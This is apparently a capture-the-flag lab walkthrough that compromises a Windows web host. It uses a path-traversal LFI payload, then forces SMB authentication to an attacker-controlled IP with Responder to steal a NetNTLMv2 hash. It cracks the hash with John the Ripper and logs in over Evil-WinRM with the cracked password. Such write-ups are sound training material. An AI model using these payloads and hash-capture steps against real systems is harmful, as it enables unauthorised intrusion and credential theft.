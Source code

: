 Enumeration
We begin by scanning the host for open ports and running services using Nmap:


nmap -p- --min-rate 1000 -sV 10.129.128.223
Nmap detects that the machine is running Windows with an Apache web server on port 80 and WinRM on port 5985.

Website Enumeration
Accessing http://[target ip] redirects to http://unika.htb. We add an entry to the /etc/hosts file to resolve this domain:


echo "10.129.128.223 unika.htb" | sudo tee -a /etc/hosts
The website presents a web design business landing page with a language selection option. Changing the language reveals a potential Local File Inclusion (LFI) vulnerability via the page parameter.

Exploiting the LFI Vulnerability
We test the LFI vulnerability by accessing common system files:


http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
The contents of the hosts file are displayed, confirming the vulnerability.

Capturing the Challenge with Responder
We exploit this vulnerability to include a file on our attacker machine via SMB, capturing the NetNTLMv2 hash. We use Responder to set up a malicious SMB server:


sudo responder -I tun0
Accessing the following URL forces the server to connect to our machine:


http://unika.htb/?page=//10.10.14.25/somefile
Responder captures the NetNTLMv2 hash of the Administrator user.

Cracking the Hash
We use John the Ripper to crack the captured hash:


john -w=/usr/share/wordlists/rockyou.txt hash.txt
The password for the Administrator user is cracked: badminton.

Connecting via WinRM
We use Evil-WinRM to connect to the WinRM service with the obtained credentials:


evil-winrm -i 10.129.136.91 -u administrator -p badminton
The flag is located in C:\Users\mike\Desktop\flag.txt.

Congratulations! You can now view the contents of the flag.txt file.


type C:\Users\mike\Desktop\flag.txt
